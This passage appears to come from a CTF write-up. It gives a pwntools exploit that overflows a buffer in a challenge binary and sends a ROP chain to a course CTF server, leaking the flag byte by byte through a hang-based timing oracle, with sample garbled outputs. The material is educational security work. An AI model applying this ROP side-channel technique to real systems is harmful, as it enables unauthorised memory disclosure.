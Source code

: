     context.arch = 'amd64'

    flag_addr = 0x4de2e0
    pop_r14_ret = 0x402797
    mov_eax_dword_ptr_rax_ret = 0x4022ee
    cmp_al_r14b_ret = 0x438c15
    jne_0x426148_ret = 0x426159

    pop_rbx_ret = 0x401fa2
    jmp_rbx = 0x4176fd
    infinite_loop = p64(pop_rbx_ret) + p64(jmp_rbx) + p64(jmp_rbx)

    flag = ''
    idx = 0
    while idx < 53:
        guess = 0x20
        while guess < 0x80 :
            # r = process('./chal')
            r = remote('edu-ctf.zoolab.org', 10012)
            ROP = flat(
                pop_rax_ret, flag_addr+idx,
                mov_eax_dword_ptr_rax_ret,
                pop_r14_ret, guess,
                cmp_al_r14b_ret, 
                jne_0x426148_ret,
            )
            ROP += infinite_loop

            r.sendafter(b'rop\n',b'a'*0x28 + ROP)
            try :
                # If compare not correct, guess++ and access to infinity loop
                r.recv(timeout=0.5)
                break
            except:
                # If compare correct, pwntool will break out
                guess += 1
            r.close()

        idx += 1
        flag += chr(guess)
        print(flag)
    print(flag)

    r.interactive()
    ```
    * <font color="FF0000">Note that</font>: The exploit program will be affected by the internet connection and caused the result is wrong like this:
    ```
    FLA!{CORORO_f8b7d5d23ad03512P6687384b7a2a/00}
    'LAG{CORORO_f8b7d5d23ad03512d6687384b7a2a500}
    *LAG{C*RORO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CO#/RO_f8b7d5d23ad03512d6687384b7a2a500}
    FLAG{CAMORO_f8b7d5d/3ad03512d6687384!7a2a500xX
    ```
    Thus, you can run much more times to compare the result together so that you can patch up the flag correctly.
#### Reference
[EOF 2023](/SkxNKJBqi#how2_know_revenge)

